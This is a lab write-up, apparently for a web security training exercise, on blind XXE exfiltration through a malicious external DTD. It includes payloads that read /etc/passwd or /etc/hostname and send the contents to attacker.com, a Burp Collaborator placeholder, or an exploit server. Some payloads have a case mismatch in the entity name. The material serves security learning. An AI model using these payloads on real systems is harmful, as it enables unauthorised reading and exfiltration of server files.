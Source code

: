 Title: Exploiting blind XXE to exfiltrate data using a malicious external DTD
Level: Practitioner
Desc:  This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the /etc/hostname file. 


First of all what is the difference between classic XXE using interal entity and external DTD.
DTD - Document Type Definition
- An internal DTD is defined inside the XML document itself.
- An external DTD is loaded from an outside source, typically via a URL.
  
DTD can be used to bypass protection. 

classic XXE example using an internal entity:
```
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```
External DTDs can be used to bypass protections — like if entity definitions are restricted internally, but the parser still fetches external DTDs.

External DTD delivering the payload:
```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/malicious.dtd">
<data>&sendFile;</data>
```
Then, malicious.dtd might contain:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY sendFile SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

So, using external DTD we can bypass protections and still exploit XXE vulnerability.

LAB:
go to exploit server and add the exploit:
![image](https://github.com/user-attachments/assets/805d7fe4-2bad-4d42-b65d-311e8a2112f2)
payload: 
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % sendFile SYSTEM 'http://BURP_COLLABORATOR?data=%file;'>">
%eval;
%sendfile;
```

Exploitation and calling external dtd file: 
![image](https://github.com/user-attachments/assets/31ae6e1f-5b40-4d76-b9df-0c3b932ba66b)
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0aad004b0477773880f9520301880004.exploit-server.net/exploit"> %xxe; ]>
```

When you have stacke entities you probably need to encode percent sign as : `&#x25;`
So the proper payload is :
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; sendFile SYSTEM 'http://BURP_COLLABORATOR?data=%file;'>">
%eval;
%sendfile;
```










